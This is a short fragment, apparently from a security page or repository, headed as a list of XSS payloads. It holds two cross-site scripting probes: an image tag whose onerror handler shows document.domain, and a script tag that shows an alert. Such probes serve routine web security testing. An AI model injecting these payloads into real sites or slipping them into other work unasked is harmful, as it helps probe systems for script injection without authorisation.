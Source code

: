 List of XSS Payloads:
----------------------
<img src=x onerror=alert(document.domain)>
<script>alert(1);</script>
